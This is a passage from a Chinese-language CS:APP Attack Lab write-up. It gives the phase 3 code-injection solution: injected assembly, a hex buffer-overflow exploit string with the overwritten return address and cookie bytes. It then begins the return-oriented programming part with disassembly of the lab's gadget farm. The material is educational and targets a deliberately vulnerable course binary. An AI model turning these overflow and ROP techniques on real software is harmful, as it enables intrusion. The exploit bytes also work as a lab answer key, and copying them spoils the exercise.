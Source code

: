 ![1.8](D:\CSAPP\write-ups\attacklab\1.8.png)

即0x4018fa

同phase2，我们需要的汇编指令为：

```assembly
mov $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

![1.9](D:\CSAPP\write-ups\attacklab\1.9.png)

最后我们还需要将cookie的值转成字符ascii值放入栈尾即可构造出exploit code：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
```



![1.10](D:\CSAPP\write-ups\attacklab\1.10.png)

phase3完成！

## Part 2 Return-Oriented Programming

### ROP



rtarget中farm的反汇编如下：

```assembly
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
```